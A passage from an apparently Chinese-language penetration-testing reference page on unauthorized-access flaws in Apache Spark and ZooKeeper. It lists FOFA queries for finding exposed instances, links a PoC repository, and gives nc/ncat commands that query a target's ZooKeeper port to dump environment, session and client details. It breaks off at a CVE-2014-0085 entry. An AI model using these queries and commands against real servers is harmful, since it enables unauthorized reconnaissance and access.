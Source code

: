 
## Spark

Apache Spark 是一款集群计算系统,其支持用户向管理节点提交应用,并分发给集群执行.

> 官网 : https://spark.apache.org/

> fofa : app="APACHE-Spark"

**未授权访问漏洞**
- 概述

    如果管理节点未启动 ACL (访问控制) ,我们将可以在集群中执行任意代码.

- 相关文章
    - [Apache Spark 未授权访问漏洞](https://vulhub.org/#/environments/spark/unacc/)
    - [某大厂红队评估_之_Apache Spark打点](https://mp.weixin.qq.com/s/XTXuZAZL9PFQzV36sVD9oQ)

- POC | Payload | exp
    - [aRe00t/rce-over-spark](https://github.com/aRe00t/rce-over-spark)

---

## ZooKeeper

Apache Zookeeper 是美国阿帕奇（Apache）软件基金会的一个软件项目，它能够为大型分布式计算提供开源的分布式配置服务、同步服务和命名注册等功能。

> fofa : app="APACHE-ZooKeeper"

**未授权访问漏洞**
- 概述

    Zookeeper 的默认开放端口是 2181。Zookeeper 安装部署之后默认情况下不需要任何身份验证，造成攻击者可以远程利用 Zookeeper，通过服务器收集敏感信息或者在 Zookeeper 集群内进行破坏（比如：kill 命令）。攻击者能够执行所有只允许由管理员运行的命令。

- 相关文章
    - [ZooKeeper 未授权访问漏洞](https://blog.csdn.net/qq_23936389/article/details/83826028)
    - [攻击大数据应用:ZooKeeper](http://www.polaris-lab.com/index.php/archives/41/)

- 搭建环境
    ```bash
    wget https://mirrors.tuna.tsinghua.edu.cn/apache/zookeeper/zookeeper-3.4.14/zookeeper-3.4.14.tar.gz
    tar -xzvf zookeeper-3.4.14.tar.gz
    cd zookeeper-3.4.14/conf
    mv zoo_sample.cfg zoo.cfg
    ../bin/zkServer.sh start
    ../bin/zkCli.sh -server 127.0.0.1:2181  # 连接 server
    ```

- 利用
    ```bash
    echo envi|nc [ip] 2181      # 打印有关服务环境的详细信息
    echo dump |ncat [ip] 2181   # 列出未完成的会话和临时节点
    echo reqs |ncat [ip] 2181   # 列出未完成的请求
    echo ruok |ncat [ip] 2181   # 测试服务器是否运行在非错误状态
    echo stat |ncat [ip] 2181   # 列出关于性能和连接的客户端的统计信息

    ./zkCli.sh -server [ip]:port
    ```

**CVE-2014-0085 ZooKeeper 信息泄露漏洞**
- 简介

    Apache Zookeeper 中存在安全漏洞，该漏洞源于程序记录明文 admin 密码。本地攻击者可通过读取日志利用该漏洞获取敏感信息。

- 相关文章
